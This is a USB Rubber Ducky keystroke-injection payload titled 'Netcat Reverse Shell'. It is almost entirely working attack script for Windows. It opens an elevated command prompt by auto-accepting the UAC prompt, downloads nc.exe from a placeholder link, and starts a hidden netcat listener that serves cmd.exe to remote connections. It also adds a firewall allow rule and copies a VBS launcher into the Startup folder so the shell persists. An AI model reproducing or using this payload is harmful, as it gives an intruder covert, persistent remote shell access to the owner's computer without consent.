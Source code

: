 REM Info and source: https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload-Netcat-Reverse-Shell
REM Title: Netcat Reverse Shell
REM Author: Kanishk Singh
REM Version: 1

REM Change the following details:
REM    [NETCAT_DOWNLOAD_LINK]: Your Netcat download link.
REM    [PORT]: The port on the target machine you want netcat to listen on.
REM    Directory: Use something other than %TEMP% if you want to.


DELAY 200
REM --> Minimize all windows
WINDOWS d
GUI r
DELAY 500
STRING powershell Start-Process cmd -Verb RunAs
ENTER
DELAY 1500
ALT y
DELAY 500
STRING cd %TEMP%
ENTER

REM --> Kills already running Netcat instance (if any)
STRING TASKKILL /im nc.exe /f
ENTER
REM --> Delete nc.exe file if it already exists
STRING erase /Q nc.exe
ENTER
REM --> Delete Start batch file if it already exists
STRING erase /Q Start.bat
ENTER
REM --> Delete Invisible.vbs in temp folder, if it already exists
STRING erase /Q invisible.vbs
ENTER
REM --> Delete invisible.vbs file in Startup if it already exists
STRING erase /Q "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\invisible.vbs"
ENTER
DELAY 500

REM --> Downloads NetCat
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://[NETCAT_DOWNLOAD_LINK]/nc.exe','nc.exe')
ENTER
DELAY 500

REM --> Creates a batch file to start listening 
STRING copy con Start.bat
ENTER
STRING nc -lp [PORT] -vv -e cmd.exe -L
ENTER
CONTROL z
ENTER

REM --> Starts batch file invisibly 
STRING copy con invisible.vbs
ENTER
STRING Set WshShell = CreateObject("WScript.Shell" ) 
ENTER
STRING WshShell.Run chr(34) & "%TEMP%\Start.bat" & Chr(34), 0 
ENTER
STRING Set WshShell = Nothing 
ENTER
CONTROL z
ENTER
REM --> Add netcat to allowed programs list, enabling it to communicate through the firewall seamlessly
STRING netsh advfirewall firewall add rule name="Netcat" dir=in action=allow program="%TEMP%\nc.exe" enable=yes
ENTER
STRING start invisible.vbs
ENTER
DELAY 100

REM --> Copies invisible.vbs to startup folder for persistence
STRING copy "invisible.vbs" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
ENTER
REM --> Kills CMD while nc.exe continues running in background, remove Ducky after CMD closes
STRING exit 
ENTER
